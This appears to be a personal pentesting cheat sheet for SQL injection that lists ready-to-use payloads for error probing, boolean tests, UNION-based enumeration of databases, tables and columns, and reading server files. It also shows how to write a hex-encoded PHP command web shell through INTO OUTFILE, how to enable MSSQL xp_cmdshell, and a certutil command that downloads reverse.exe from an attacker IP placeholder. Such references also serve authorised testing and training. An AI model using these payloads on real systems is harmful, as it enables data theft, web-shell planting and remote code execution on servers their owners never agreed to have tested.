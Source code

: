 PortSwigget Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Pentestermonkey SQL injection cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Error
	'
	"
	1 or @@version=1); -- -

## Logic
**Server expects string**

	1' or 'a'='a
	1' or 'a'='b
	') or 1=1; -- -

**Server expects integer**

	1 or 'a'='a'
	1 or 'a'='b'

## Union Select
	1' UNION SELECT null; -- -
	1' UNION SELECT null,null; -- -
	...
	Until the number of fields is found. Then change null for string or integer to find it's type

## Injections

### Info
	1' UNION SELECT null,@@version-- -
	1' UNION SELECT null,version()-- -
	1' UNION SELECT null,sqlite_version()-- -
	1' UNION SELECT null,* FROM v$version-- -
	1' UNION SELECT null,@@database-- -
	1' UNION SELECT null,database()-- -
	1' UNION SELECT null,* FROM information_schema.tables-- -
	1' union select 1,group_concat(schema_name)from information_schema.schemata-- -

### Tables
	1' UNION SELECT null,table_name FROM information_schema.tables-- -
	1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()-- -
	1' union select 1, table_name FROM information_schema.tables-- -

### Columns
	1' UNION SELECT null,[column_name] FROM [table_name]-- -
	1' UNION SELECT null,column_name FROM information_schema.columns where table_name = 'users_owgtcb'-- -
	1' union select 1,group_concat(column_name) from information_schema.tables where table_schema = database()-- -
	id=1' union select 1, column_name FROM information_schema.tables-- -

### Write files
	1' union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from [database].queue-- -

###### Write CMD shell
	 1' union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from [database].queue-- -

### Read files
	1' UNION SELECT 1,LOAD_FILE("/var/www/html/index.php")-- -

## Microsft SQL Server
**Activate xp_cmdshell**

	'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Execute command line commands

	'; EXEC xp_cmdshell '[Command]'; --
	'; EXEC xp_cmdshell 'certutil -urlcache -f http://[Attacker IP]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --


